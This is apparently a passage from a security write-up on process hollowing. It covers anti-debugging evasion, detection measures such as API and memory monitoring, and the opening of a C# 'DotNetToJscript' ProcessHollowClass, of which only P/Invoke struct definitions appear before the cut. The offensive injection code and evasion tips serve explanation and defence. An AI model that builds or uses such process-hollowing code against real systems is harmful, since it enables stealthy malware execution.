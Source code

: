 4. **Anti-Debugging Techniques**: Incorporate checks to detect if the process is being debugged and alter the behavior accordingly.

### **Detection and Defense**

Security teams need to implement robust detection mechanisms to identify and mitigate process hollowing attempts:

1. **Behavioral Analysis**: Monitor for unusual process creation patterns, especially those involving suspended processes that have their memory modified before being resumed.

2. **Memory Scanning**: Scan the memory of running processes for inconsistencies between the loaded image and the on-disk executable, which may indicate that a process has been hollowed.

3. **API Monitoring**: Keep an eye on calls to `ZwUnmapViewOfSection`, `VirtualAllocEx`, and `WriteProcessMemory`, as these are commonly used in process hollowing.

4. **Event Logging**: Enable detailed logging of process creation events and any modifications to process memory, and correlate these with other suspicious activities.


### DotNetToJscript

```csharp

using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

[ComVisible(true)]
public class ProcessHollowClass
{

    // http://www.pinvoke.net/default.aspx/Structures/SECURITY_ATTRIBUTES.html
    [StructLayout(LayoutKind.Sequential)]
    public struct SECURITY_ATTRIBUTES
    {
        public int nLength;
        public IntPtr lpSecurityDescriptor;
        public int bInheritHandle;
    }

    // http://www.pinvoke.net/default.aspx/Structures/STARTUPINFO.html
    [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
    struct STARTUPINFO
    {
        public Int32 cb;
        public string lpReserved;
        public string lpDesktop;
        public string lpTitle;
        public Int32 dwX;
        public Int32 dwY;
        public Int32 dwXSize;
        public Int32 dwYSize;
        public Int32 dwXCountChars;
        public Int32 dwYCountChars;
        public Int32 dwFillAttribute;
        public Int32 dwFlags;
        public Int16 wShowWindow;
        public Int16 cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
```